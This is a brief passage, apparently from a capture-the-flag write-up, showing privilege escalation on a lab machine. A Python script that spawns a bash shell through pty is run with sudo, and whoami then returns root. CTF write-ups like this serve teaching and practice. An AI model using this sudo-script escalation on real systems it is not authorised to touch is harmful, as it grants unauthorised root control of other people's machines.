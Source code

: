 ```sh
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```
# Rooting
```sh
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# whoami
root
root@ubuntu:~# 
```
# Done
